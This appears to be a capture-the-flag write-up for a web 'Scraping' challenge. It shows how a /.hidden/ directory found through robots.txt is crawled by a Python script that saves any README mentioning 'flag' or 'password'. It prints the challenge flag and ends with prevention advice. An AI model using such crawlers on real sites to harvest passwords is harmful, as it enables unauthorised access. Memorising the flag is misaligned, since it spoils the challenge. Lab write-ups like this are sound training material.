 # Scraping

## Flag

```
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

## Discovery and Exploitation

### Finding a Disallowed Directory:

1. Upon inspecting the robots.txt file, a disallowed directory /.hidden/ was found. This hinted at the possibility of sensitive or hidden content.
   Exploring /.hidden/:

2. Within the / .hidden/ directory, there were links to additional subdirectories. These appeared to be structured in a way that required deeper exploration.
   Recursive Scraping for Links and Content:

3. A Python script was utilized to recursively navigate through the directory structure, retrieving all available links and checking the content of each file.
   Key steps in the script's functionality included:
   Fetching the content of each directory and identifying links.
   Examining README files in the directories for sensitive keywords like "flag," "FLAG," "password," or "PASSWORD."
   Saving any discovered content containing the desired keywords to a results file for further review.flag we use the following script

```python
import requests
import bs4 as bs

def scrapping_recursive(url):
	request = requests.get(url)
	s = bs.BeautifulSoup(request.text, 'html.parser')
	if (s is not None):
		print("Scrapping: " + url)
		links = s.find_all("a")
		f = open("results.txt", "a+")
		for link in links:
			final_link = link.get('href')
			if (final_link == "README"):
				request = requests.get(url + final_link)
				if "flag" in request.text or "FLAG" in request.text or "password" in request.text or "PASSWORD" in request.text:
						f.write(request.text)
			elif (final_link != "../"):
				scrapping_recursive(url + final_link)
		f.close()

url = "http://10.11.100.150/.hidden/"
scrapping_recursive(url)
```

4. finlay we find the flag in [host]/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README

## Why It Works

The script works by recursively navigating through the directory structure, identifying links, and examining the content of each file. By searching for specific keywords like "flag," "FLAG," "password," or "PASSWORD" in README files, the script can identify sensitive information that may be hidden within the directories.

## Prevention

To prevent unauthorized access to sensitive directories and files, ensure that proper access controls are in place. Limit directory listings and implement authentication mechanisms to restrict access to authorized users only. Additionally, consider encrypting sensitive data and using secure protocols to protect information from unauthorized disclosure.
